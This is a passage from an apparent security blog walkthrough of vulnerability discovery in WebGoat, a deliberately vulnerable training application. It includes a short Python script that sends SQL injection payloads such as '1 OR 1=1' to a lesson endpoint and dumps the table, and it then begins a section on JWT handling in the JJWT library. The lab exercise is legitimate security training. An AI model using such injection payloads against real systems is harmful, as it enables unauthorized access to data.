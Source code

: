 ![grep_sql](../images/2021-06-23-Vuln_discovery_Java/SqlInjectionLesson5b.png)

Now we know everything we need to exploit the SQL injection vulnerability present here. Let's send some payloads to `/SqlInjection/assignment5b` endpoint. Note that we lso need to provide `login_count` value which probably should be an integer.

```py
def SQLInjection(session, payload):
	response = session.post(
		url = webgoat_url + "/SqlInjection/assignment5b",
		data = {"userid" : payload, "login_count" : "1",}
		)
	return response.text

sql_data = SQLInjection(session, "1")
print(sql_data)
sql_data = SQLInjection(session, "1 OR 1=1")
print(sql_data)
```

Executing this code gives us 2 responses:

![SQL injection](../images/2021-06-23-Vuln_discovery_Java/sqlinjection.png)

We injected `1 OR 1=1` and the query returned all the data from the table.

### JSON Web Tokens and signatures
#### JJWT library
Sometimes vulnerabilities arise when JWTs are not handled properly. WebGoat version we're analyzing uses version `JJWT` library version `0.7.0`. The library source code is [available on GitHub](https://github.com/jwtk/jjwt). We can also just decompile its code. We will leverage GitHub this time.

